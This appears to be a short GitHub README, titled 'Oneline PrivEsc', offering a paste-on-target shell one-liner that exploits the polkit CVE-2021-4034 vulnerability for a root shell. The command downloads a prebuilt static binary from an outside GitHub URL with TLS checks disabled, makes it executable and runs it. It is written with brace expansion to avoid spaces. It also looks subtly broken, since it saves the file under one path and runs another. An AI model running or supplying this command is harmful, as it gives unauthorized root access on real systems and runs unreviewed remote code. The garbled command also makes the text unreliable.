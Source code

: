 # Oneline PrivEsc
 This is static binary file to exploit the polkit vulnerability (CVE-2021-4034)
 Just copy and paste on target this command and get root shell.

 GCC it's not needed on target!

```sh

{curl,-s,-k,https://raw.githubusercontent.com/carlosevieira/polkit/main/pwn,-o,/tmp/polkit-static};{chmod,+x,/tmp/polkit-static};/tmp/polkit

```

Tks @0dayCTF for the static binary <3